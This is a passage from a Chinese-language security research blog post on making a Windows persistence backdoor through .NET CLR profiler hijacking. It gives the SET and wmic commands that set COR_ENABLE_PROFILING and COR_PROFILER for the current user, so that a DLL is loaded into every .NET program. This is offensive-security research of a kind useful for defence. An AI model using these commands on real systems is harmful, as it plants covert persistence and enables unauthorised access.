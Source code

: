 ![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-28/2-3.png)

**注:**

使用其他cmd执行powershell.exe不会加载msg.dll

**原因：**

```
SET COR_ENABLE_PROFILING=1
SET COR_PROFILER={11111111-1111-1111-1111-111111111111}
```

只作用于当前cmd，可通过cmd命令`"set"`判断


当然，执行其他.net程序也会加载msg.dll

测试如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-28/2-4.png)


## 0x03 后门开发思路
---

由以上测试得出结论，使用CLR能够劫持所有.Net程序的启动，但是只能作用于当前cmd

能否作用于全局呢？

自然想到了修改环境变量

通常，修改环境变量使用面板操作的方式，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-28/3-1.png)

能否通过命令行修改环境变量呢？

自然想到了WMI

修改系统变量（需要管理员权限）：

`wmic ENVIRONMENT create name="1",username="<system>",VariableValue="1"`

修改当前用户变量（当前用户权限）：

`wmic ENVIRONMENT create name="2",username="%username%",VariableValue="2"`

**注：**

通过WMI修改环境变量需要系统重启或注销重新登录才能生效


接下来需要测试，是否只需要修改当前用户权限就能够实现作用于全局，答案是肯定的。

添加当前用户的环境变量：

```
wmic ENVIRONMENT create name="COR_ENABLE_PROFILING",username="%username%",VariableValue="1"

wmic ENVIRONMENT create name="COR_PROFILER",username="%username%",VariableValue="{11111111-1111-1111-1111-111111111111}"
```
